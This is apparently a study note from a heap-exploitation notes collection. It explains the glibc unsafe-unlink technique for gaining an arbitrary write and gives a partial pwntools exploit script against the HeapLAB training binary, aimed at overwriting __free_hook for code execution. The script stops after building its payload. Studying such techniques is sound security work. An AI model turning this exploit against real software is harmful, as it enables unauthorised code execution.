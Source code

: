 ## Unsafe Unlink: Exploiting free on a corrupted chunk to gain arbitrary 8-byte write

**Requirements**
* Allocate chunks in the unsorted bin, `120 - 1000 bytes`
* Ability to corrupt `prev_size` and `prev_in_use` flag of a chunk, usually through heap overflow
* Ability to forge a fake freed chunk by writing valid `fd` and `bk` pointers in a chunk's data
    * `fd` and `bk` must both be writable addresses, such as GOT

**Arbitrary Write Primitive**  
_Assuming `target` is the address to be overwritten_
* Allocate 2 chunks in the unsorted bin
* In the fake free chunk:
    * `fd (first 8 bytes in chunk data)` contains `target`
    * `bk (next 8 bytes in chunk data)` contains 8-bytes to be written to `target`
* In the corrupted chunk:
    * Overwrite `prev_size` to be the size of the previous fake free chunk
    * Overwite `prev_in_use` to be 0, `size` of chunk `0x91 -> 0x90`
* Free the corrupted chunk
    * `bk` will contain `fd`, vice versa

**Example:** HeapLAB `unsafe_unlink`  
`chunk A: fake free chunk, chunk B: corrupted chunk`  
RCE is gained by writing address of chunk A's data to `__free_hook`, and writing shellcode in chunk A's data as `NX` is not set.
```python
from pwn import *

config = {"elf" : "./unsafe_unlink"}

def malloc(size):
    sla('> ', '1')
    sla('size: ', str(size))

def edit(index, data):
    sla('> ', '2')
    sla('index: ', str(index))
    sla('data: ', data)

def free(index):
    sla('> ', '3')
    sla('index: ', str(index))

def exploit(p):
    # Get puts and heap leak
    ru('puts() @ ')
    puts = int(p.recvline().strip(), 16)
    ru('heap @ ')
    heap_addr = int(p.recvline().strip(), 16)
    
    # Calculate libc addresses
    libc.address = puts - libc.symbols['puts']
    free_hook = libc.symbols['__free_hook']

    malloc(0x88)
    malloc(0x88)
    
    # In chunk A: Forge fake free chunk by faking fd and bk
    # In chunk B: Overwrite prev_size and prev_in_use to make the heap think A is freed
    fd = free_hook - 24
    bk = heap_addr + 0x10
    prev_size = 0x90
    size = 0x90
    data = p64(fd) + p64(bk) + '\x00'*112 + p64(prev_size) + p64(size)
```